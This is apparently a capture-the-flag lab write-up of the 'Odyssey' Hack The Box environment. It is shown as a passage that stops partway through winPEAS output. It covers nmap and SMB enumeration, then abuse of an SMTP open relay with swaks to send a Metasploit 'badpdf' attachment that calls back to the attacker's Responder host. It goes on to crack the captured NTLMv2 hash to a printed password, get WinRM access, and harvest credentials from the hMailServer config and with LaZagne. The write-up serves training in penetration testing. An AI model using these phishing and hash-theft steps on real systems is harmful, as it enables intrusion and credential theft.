




I wil repost the Nmap results to have a better tracking of it:

```Bash
PORT      STATE SERVICE       REASON          VERSION
25/tcp    open  smtp          syn-ack ttl 127 hMailServer smtpd
| smtp-commands: ONLINE, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
80/tcp    open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Odyssey
110/tcp   open  pop3          syn-ack ttl 127 hMailServer pop3d
|_pop3-capabilities: TOP USER UIDL
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
143/tcp   open  imap          syn-ack ttl 127 hMailServer imapd
|_imap-capabilities: completed OK CHILDREN RIGHTS=texkA0001 NAMESPACE IMAP4 IMAP4rev1 IDLE CAPABILITY SORT QUOTA ACL
445/tcp   open  microsoft-ds? syn-ack ttl 127
587/tcp   open  smtp          syn-ack ttl 127 hMailServer smtpd
| smtp-commands: ONLINE, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
28016/tcp open  unknown       syn-ack ttl 127
28083/tcp open  unknown       syn-ack ttl 127
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49670/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Microsoft Windows Server 2019 (96%), Microsoft Windows 10 1709 - 1909 (93%), Microsoft Windows Server 2012 (93%), Microsoft Windows Vista SP1 (92%), Microsoft Windows Longhorn (92%), Microsoft Windows 10 1709 - 1803 (91%), Microsoft Windows 10 1809 - 2004 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 Update 1 (91%), Microsoft Windows Server 2016 build 10586 - 14393 (91%)
No exact OS matches for host (test conditions non-ideal).
```

* * *

## SMB:

So here the easiest step would be to check that SMB service:

```bash
====================================
|    Listener Scan on 10.13.38.21    |
 ====================================
[*] Checking LDAP
[-] Could not connect to LDAP on 389/tcp: connection refused
[*] Checking LDAPS
[-] Could not connect to LDAPS on 636/tcp: connection refused
[*] Checking SMB
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[+] SMB over NetBIOS is accessible on 139/tcp


 ========================================
|    SMB Dialect Check on 10.13.38.21    |
 ========================================
[*] Trying on 445/tcp
[+] Supported dialects and settings:
Supported dialects:
  SMB 1.0: false
  SMB 2.02: true
  SMB 2.1: true
  SMB 3.0: true
  SMB 3.1.1: true
Preferred dialect: SMB 3.0
SMB1 only: false
SMB signing required: false

 ==========================================================
|    Domain Information via SMB session for 10.13.38.21    |
 ==========================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found domain information via SMB
NetBIOS computer name: ONLINE
NetBIOS domain name: ''
DNS domain: online
FQDN: online
Derived membership: workgroup member
Derived domain: unknown

 ==============================================
|    OS Information via RPC for 10.13.38.21    |
 ==============================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Skipping 'srvinfo' run, not possible with provided credentials
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016
OS version: '10.0'
OS release: '1809'
OS build: '17763'
Native OS: not supported
Native LAN manager: not supported
Platform id: null
Server type: null
Server type string: null

[!] Aborting remainder of tests since sessions failed, rerun with valid credentials
```

Ok as we see we can't see that much without proper credentials, so i guess we could come back later on.

Checking manually for SMB shares didn´t showed anything.

* * *

## SMTP:

Then that SMTP but even by trying some manual enumeration didn't worked which this mean we have to move forward to HTTP.

* * *

## HTTP:

Loggin in manualy into website we can see a pretty standard page, no leftovers in the comments are available but we can see one of their email and then guess the VHOST FQDN:


So here the easiest is to start by checking for available VHOST(Subdomains):

```BAsh
┌──(root㉿kali-linux)-[/home/millycash/Downloads]
└─# ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt  -u 'http://odyssey.htb' -H "Host:FUZZ.odyssey.htb" -fl 160

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://odyssey.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.odyssey.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response lines: 160
________________________________________________

:: Progress: [19966/19966] :: Job [1/1] :: 673 req/sec :: Duration: [0:00:32] :: Errors: 0 ::
```

Ok nothing, but what about webdirectories?

```Bash
┌──(root㉿kali-linux)-[/home/millycash/Downloads]
└─# dirsearch -u  'http://odyssey.htb'       

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Output File: /root/.dirsearch/reports/odyssey.htb/_23-06-23_00-23-34.txt

Error Log: /root/.dirsearch/logs/errors-23-06-23_00-23-34.log

Target: http://odyssey.htb/

[00:23:35] Starting: 
[00:23:35] 403 -  312B  - /%2e%2e//google.com
[00:23:44] 403 -  312B  - /\..\..\..\..\..\..\..\..\..\etc\passwd
[00:23:58] 301 -  149B  - /assets  ->  http://odyssey.htb/assets/
[00:23:58] 403 -    1KB - /assets/
[00:24:14] 301 -  149B  - /images  ->  http://odyssey.htb/images/
[00:24:14] 403 -    1KB - /images/
[00:24:15] 200 -    6KB - /index.html

Task Completed
```

Ok not much again then I guess we have to try to exploit that send email form and see what can we do then..



But as we see if we try to send an email, it says that a wrong http bers is used,  maybe will it work with GET instead?

Seems like I can't get hold on which means I truly belive the MAIL is the way in should be the SMTP server somehow!

* * *

## Back to SMTP:

Checkin back the request formular it 's telling to send a PDF of the invoice to invoice@odyssey.htb and we should get our account activated back eventually:



So my idea is to use something similar and do a MITM to force the invoice to either send us anything back or even click on a link where our machine is listening in Responder since we are sure this is a WIndows host. The tool is this: https://github.com/RobinMeis/MITMsmtp

So first I check if on SMTP port 25 is a open relay?

```Bash
┌──(root㉿kali-linux)-[/home/millycash/Downloads/ODYSSEY]
└─# nmap -p25 -Pn --script smtp-open-relay odyssey.htb
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-19 12:35 CEST
Nmap scan report for odyssey.htb (10.13.38.21)
Host is up (0.048s latency).

PORT   STATE SERVICE
25/tcp open  smtp
|_smtp-open-relay: Server is an open relay (8/16 tests)

Nmap done: 1 IP address (1 host up) scanned in 2.51 seconds
```

Yes that's good! Then we should be able to use [swaks](https://github.com/jetmore/swaks) to send the email and eventually fetch the result in our mitm machine!

Let's setup a Listening Responder:



Then I will first do a "Blind" test and try to send a email to invoice with the link of our responder:

```Bash
┌──(root㉿kali-linux)-[/home/millycash/Downloads/ODYSSEY]
└─# swaks --from test@odyssey.htb --to invoice@odyssey.htb -header 'Subject: VIP' --body 'Hi, this is my VIP invoice. //10.10.14.6' --server odyssey.htb 
=== Trying odyssey.htb:25...
=== Connected to odyssey.htb.
<-  220 ONLINE ESMTP
 -> EHLO kali-linux
<-  250-ONLINE
<-  250-SIZE 20480000
<-  250-AUTH LOGIN
<-  250 HELP
 -> MAIL FROM:<test@odyssey.htb>
<-  250 OK
 -> RCPT TO:<invoice@odyssey.htb>
<-  250 OK
 -> DATA
<-  354 OK, send.
 -> Date: Wed, 19 Jul 2023 12:44:00 +0200
 -> To: invoice@odyssey.htb
 -> From: test@odyssey.htb
 -> Subject: VIP
 -> Message-Id: <20230719124400.057010@kali-linux>
 -> X-Mailer: swaks v20201014.0 jetmore.org/john/code/swaks/
 -> 
 -> Hi, this is my VIP invoice. //10.10.14.6
 -> 
 -> 
 -> .
<-  250 Queued (1.048 seconds)
 -> QUIT
<-  221 goodbye
=== Connection closed with remote host.
```

But we get nothing, then I decided to send a URL link instead: But again nothing back!

* * *

## Port 28016, 28083 the "Uknown":

Lastly I forgot to check those services thinking that they would be harmless but port 28016 is poiting to RCON Rust server(https://nodecraft.com/support/games/rust/setting-up-the-rust-admin-rcon-tool#h-add-your-server-to-your-rustadmin-account-a1562adc) and the other port 28032 rust server(https://wiki.facepunch.com/rust/rust-companion-server).

So first thing first on Nodecraft was pointing to use a special tool to interact with the Rust Server:



But it didn't worked cause we need a password to connect to RCON service on port 28016 so I stumbled upon this: [https://github.com/CCBlueX/rcon\_bruteforcer](https://github.com/CCBlueX/rcon_bruteforcer)

The idea is to try to guess and brute force the login!

* * *

## Back on SMTP track

Now here i went back on STMP part and found out that is possible to create a malicious PDF that can steal NTML hash.

First we create the malicious pdf:

```
msf6 auxiliary(fileformat/badpdf) > show options 

Module options (auxiliary/fileformat/badpdf):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   FILENAME   invoice.pdf      no        Filename
   LHOST      10.10.14.5       yes       Host listening for incoming SMB/WebDAV traffic
   PDFINJECT                   no        Path and filename to existing PDF to inject UNC link code into


View the full module info with the info, or info -d command.

msf6 auxiliary(fileformat/badpdf) > run

[+] invoice.pdf stored at /root/.msf4/local/invoice.pdf
[*] Auxiliary module execution completed
msf6 auxiliary(fileformat/badpdf) >
```

Next we can send the email via the OpenRelay found on the SMTP server running on the entry point IP:

```
┌──(root㉿kali)-[/home/millycash/Downloads/Odyssey]
└─# swaks --to invoice@odyssey.htb --from yovecio@test.htb --header "Subject: Invoice" --body "Plese activate my premium membership." --attach ./invoice.pdf --server odyssey.htb 
*** DEPRECATION WARNING: Inferring a filename from the argument to --attach will be removed in the future.  Prefix filenames with '@' instead.
=== Trying odyssey.htb:25...
=== Connected to odyssey.htb.
<-  220 ONLINE ESMTP
 -> EHLO localhost
<-  250-ONLINE
<-  250-SIZE 20480000
<-  250-AUTH LOGIN
<-  250 HELP
 -> MAIL FROM:<yovecio@test.htb>
<-  250 OK
 -> RCPT TO:<invoice@odyssey.htb>
<-  250 OK
 -> DATA
<-  354 OK, send.
 -> Date: Fri, 12 Jan 2024 09:19:19 +0100
 -> To: invoice@odyssey.htb
 -> From: yovecio@test.htb
 -> Subject: Invoice
 -> Message-Id: <20240112091919.007086@localhost>
 -> X-Mailer: swaks v20201014.0 jetmore.org/john/code/swaks/
 -> MIME-Version: 1.0
 -> Content-Type: multipart/mixed; boundary="----=_MIME_BOUNDARY_000_7086"
 -> 
 -> ------=_MIME_BOUNDARY_000_7086
 -> Content-Type: text/plain
 -> 
 -> Plese activate my premium membership.
 -> ------=_MIME_BOUNDARY_000_7086
 -> Content-Type: application/octet-stream; name="invoice.pdf"
 -> Content-Description: invoice.pdf
 -> Content-Disposition: attachment; filename="invoice.pdf"
 -> Content-Transfer-Encoding: BASE64
 -> 
 -> JVBERi0xLjcKMSAwIG9iago8PC9UeXBlL0NhdGFsb2cvUGFnZXMgMiAwIFI+PgplbmRvYmoKMiAw
 -> IG9iago8PC9UeXBlL1BhZ2VzL0tpZHNbMyAwIFJdL0NvdW50IDE+PgplbmRvYmoKMyAwIG9iago8
 -> PC9UeXBlL1BhZ2UvUGFyZW50IDIgMCBSL01lZGlhQm94WzAgMCA2MTIgNzkyXS9SZXNvdXJjZXM8
 -> PD4+Pj4KZW5kb2JqCnhyZWYKMCA0CjAwMDAwMDAwMDAgNjU1MzUgZgowMDAwMDAwMDE1IDAwMDAw
 -> IG4KMDAwMDAwMDA2MCAwMDAwMCBuCjAwMDAwMDAxMTEgMDAwMDAgbgp0cmFpbGVyCjw8L1NpemUg
 -> NC9Sb290IDEgMCBSPj4Kc3RhcnR4cmVmCjE5MAozIDAgb2JqCjw8IC9UeXBlIC9QYWdlCiAgIC9D
 -> b250ZW50cyA0IDAgUgogICAvQUEgPDwKICAgICAvTyA8PAogICAgICAgIC9GIChcXFxcMTAuMTAu
 -> MTQuNVxcdGVzdCkKICAgICAgL0QgWyAwIC9GaXRdCiAgICAgIC9TIC9Hb1RvRQogICAgICA+Pgog
 -> ICAgID4+CiAgICAgL1BhcmVudCAyIDAgUgogICAgIC9SZXNvdXJjZXMgPDwKICAgICAgL0ZvbnQg
 -> PDwKICAgICAgICAvRjEgPDwKICAgICAgICAgIC9UeXBlIC9Gb250CiAgICAgICAgICAvU3VidHlw
 -> ZSAvVHlwZTEKICAgICAgICAgIC9CYXNlRm9udCAvSGVsdmV0aWNhCiAgICAgICAgICA+PgogICAg
 -> ICAgICA+PgogICAgICAgPj4KPj4KZW5kb2JqCjQgMCBvYmo8PCAvTGVuZ3RoIDEwMD4+CnN0cmVh
 -> bQpCVAovVElfMCAxIFRmCjE0IDAgMCAxNCAxMC4wMDAgNzUzLjk3NiBUbQowLjAgMC4wIDAuMCBy
 -> ZwooUERGIERvY3VtZW50KSBUagpFVAplbmRzdHJlYW0KZW5kb2JqCnRyYWlsZXIKPDwKICAvUm9v
 -> dCAxIDAgUgo+PgolJUVPRgo=
 -> 
 -> ------=_MIME_BOUNDARY_000_7086--
 -> 
 -> 
 -> .
<-  250 Queued (1.046 seconds)
 -> QUIT
<-  221 goodbye
=== Connection closed with remote host.
```

And this results in a successuff NTLM Hash snooping:

```
[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.5]
    Responder IPv6             [dead:beef:2::1003]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']

[+] Current Session Variables:
    Responder Machine Name     [WIN-XXS6LR4Y3EQ]
    Responder Domain Name      [GM5Y.LOCAL]
    Responder DCE-RPC Port     [45624]

[+] Listening for events...

[*] Skipping previously captured hash for ONLINE\elpenor
[*] Skipping previously captured hash for ONLINE\elpenor
[*] Skipping previously captured hash for ONLINE\elpenor
```

Had to check into Responder logs:

```
┌──(root㉿kali)-[/usr/share/responder/logs]
└─# grep -iR 'elpenor'                                    
grep: Responder-Session.log: binary file matches
SMB-NTLMv2-SSP-10.13.38.21.txt:elpenor::ONLINE:96cf61c5cca281a3:07928521F0C6C291BD4556EF086320C6:010100000000000000F8030681ECD901289B9E1180E74F270000000002000800490038005200490001001E00570049004E002D004800580059003000510041003700520052005A00540004003400570049004E002D004800580059003000510041003700520052005A0054002E0049003800520049002E004C004F00430041004C000300140049003800520049002E004C004F00430041004C000500140049003800520049002E004C004F00430041004C000700080000F8030681ECD901060004000200000008003000300000000000000000000000002000009BA2AFD4EF4DB709EBDC28282215C8BD838BD6AD7956D6E218D0788DA7E49FEF0A0010000000000000000000000000000000000009001E0063006900660073002F00310030002E00310030002E00310034002E0034000000000000000000
```

And we have some credentials baby!

```
ELPENOR::ONLINE:e80d624d5ce2bf9d:4deea3b290a159546717273abe518782:010100000000000000f8030681ecd901555925bdd4c92a260000000002000800490038005200490001001e00570049004e002d004800580059003000510041003700520052005a00540004003400570049004e002d004800580059003000510041003700520052005a0054002e0049003800520049002e004c004f00430041004c000300140049003800520049002e004c004f00430041004c000500140049003800520049002e004c004f00430041004c000700080000f8030681ecd901060004000200000008003000300000000000000000000000002000009ba2afd4ef4db709ebdc28282215c8bd838bd6ad7956d6e218d0788da7e49fef0a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e0034000000000000000000:superman
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: SMB-NTLMv2-SSP-10.13.38.21.txt
Time.Started.....: Fri Jan 12 09:43:18 2024 (0 secs)
Time.Estimated...: Fri Jan 12 09:43:18 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  6948.5 kH/s (1.76ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 6/6 (100.00%) Digests (total), 5/6 (83.33%) Digests (new), 6/6 (100.00%) Salts
Progress.........: 98304/86066310 (0.11%)
Rejected.........: 0/98304 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#1...: Salt:5 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> cocoliso
Hardware.Mon.#1..: Temp: 72c Util:  5%

Started: Fri Jan 12 09:43:14 2024
Stopped: Fri Jan 12 09:43:20 2024
```

* * *

## Getting the first flag

Now with Elpenor credentials we are into the machine and we can start to poke around and look for the first flag.

We can see that this is the DMZ machine called Online:

```
*Evil-WinRM* PS C:\Users\elpenor\Documents> hostname
online
```

And this machine have 2 NIC, where one is attached to the internal network on **192.168.21.x/24**:

```
*Evil-WinRM* PS C:\Users\elpenor\Documents> ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : htb
   IPv6 Address. . . . . . . . . . . : dead:beef::4c
   IPv6 Address. . . . . . . . . . . : dead:beef::b951:49cb:210b:4c96
   Link-local IPv6 Address . . . . . : fe80::b951:49cb:210b:4c96%6
   IPv4 Address. . . . . . . . . . . : 10.13.38.21
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:deb9%6
                                       10.13.38.2

Ethernet adapter Ethernet1:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::2172:6b88:d989:176e%4
   IPv4 Address. . . . . . . . . . . : 192.168.21.10
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.21.2
```

Likewise we can find the first flag in Elpenor's Desktop directory:

```
*Evil-WinRM* PS C:\Users\elpenor\Desktop> ls


    Directory: C:\Users\elpenor\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        3/25/2021   6:56 AM             31 flag.txt


*Evil-WinRM* PS C:\Users\elpenor\Desktop> cat flag.txt
ODYSSEY{k4r3Ful_WI7h_pDf_FiL32}
```

Looking around seems like there is only the Administrator user?

```
*Evil-WinRM* PS C:\Users> ls


    Directory: C:\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         8/3/2021   9:05 AM                Administrator
d-----        3/14/2021   3:09 AM                elpenor
d-r---        3/12/2021   8:23 PM                Public
```

Looking under C:\\steamcmd we can find some decryption keys but not sure if are relevant somehow to our job:

```
"PercentDefaultWebSockets"		"50"
                "depots"
                {
                    "258551"
                    {
                        "DecryptionKey"		"09842c1c5e07c75ea20524cfab90a25efd8c3a1e02e5dec51ea09f5f7d64d16d"
                    }
                    "258554"
                    {
                        "DecryptionKey"		"e080d61fac7bc9db9c82396949d62c52b0780ed8a07fc3cf27fb3d05a49ebfb2"
                    }
                }
```

* * *

## Road to Administrator

Now looking around seems like ELPenor neither is part of some special group nor holds cool permissions that can be leveraged to get Administrator on the machine:

```
*Evil-WinRM* PS C:\> whoami /all

USER INFORMATION
----------------

User Name      SID
============== ==============================================
online\elpenor S-1-5-21-2336744602-1628778729-3133105333-1001


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users        Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                   Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

But then poking around under installed software found out that HMAIL server had Administrator's password hidden in one of his config files and DB password as well:

```
*Evil-WinRM* PS C:\Program Files (x86)\hMailServer\Bin> cat hMailServer.INI
[Directories]
ProgramFolder=C:\Program Files (x86)\hMailServer
DatabaseFolder=C:\Program Files (x86)\hMailServer\Database
DataFolder=C:\Program Files (x86)\hMailServer\Data
LogFolder=C:\Program Files (x86)\hMailServer\Logs
TempFolder=C:\Program Files (x86)\hMailServer\Temp
EventFolder=C:\Program Files (x86)\hMailServer\Events
[GUILanguages]
ValidLanguages=english,swedish
[Security]
AdministratorPassword=2dbaa2bcba911b55e49a4313817c64fb
[Database]
Type=MSSQLCE
Username=
Password=8e213bdaa8af80b6c049ba7cd2425f26
PasswordEncryption=1
Port=0
Server=
Database=hMailServer
Internal=1
```

But the format resembles more a password hash then a password in cleartext, I tried to use the hash to login to WIN-RM via PTH but haven't worked with might be a reason that Admin password have been changed?

Can we crack the hash maybe? Answer: NO

So searchin informations about that password seems MD5 hash of the Administrator password of the HMAIL panel, that's why it doesn't work to login via WINRM.

```
Security

    AdministratorPassword - The main hMailServer administration password. The user for example needs to enter this password when starting hMailServer Administrator. This password is encoded using MD5.
```

Next I decided to copy the DB of HMAIL locally and download it in hope that maybe I can find something juicy in it!

```
*Evil-WinRM* PS C:\Temp> ls


    Directory: C:\Temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/12/2024   1:19 AM         675840 hMailServer.sdf
```

For this purpose seems like the server used is a MSSQL Compact edition which is old and not supported from SMS anymore so I will check that under my windowd environment.

At the same time I will hund for credentials with LAZAGNE.exe which BTW gave back zero hidden password:

```
*Evil-WinRM* PS C:\Temp> ./LaZagne.exe all

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|


[+] 0 passwords have been found.
For more information launch it again with the -v option

elapsed time = 11.776994466781616
```

Next I will run Winpeas.exe and check for possible hidden informations and PE vectors, I will post only the verbose of interesting stuff from the script and not the whole log to keep this report slimmer.

```
ÉÍÍÍÍÍÍÍÍÍ͹ Recently run commands
    a: cmd\1
    MRUList: ba
    b: shell:startup\1

ÉÍÍÍÍÍÍÍÍÍ͹ Checking for DPAPI Master Keys
È  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#dpapi
    MasterKey: C:\Users\elpenor\AppData\Roaming\Microsoft\Protect\S-1-5-21-2336744602-1628778729-3133105333-1001\0d9218ab-13de-4872-bd72-2c5a2875c55a
    Accessed: 6/24/2021 12:34:35 AM
    Modified: 6/24/2021 12:34:35 AM
   =================================================================================================

    MasterKey: C:\Users\elpenor\AppData\Roaming\Microsoft\Protect\S-1-5-21-2336744602-1628778729-3133105333-1001\5a826726-911e-4ee9-bc0e-6e28d77784e7
    Accessed: 7/19/2021 7:14:02 AM
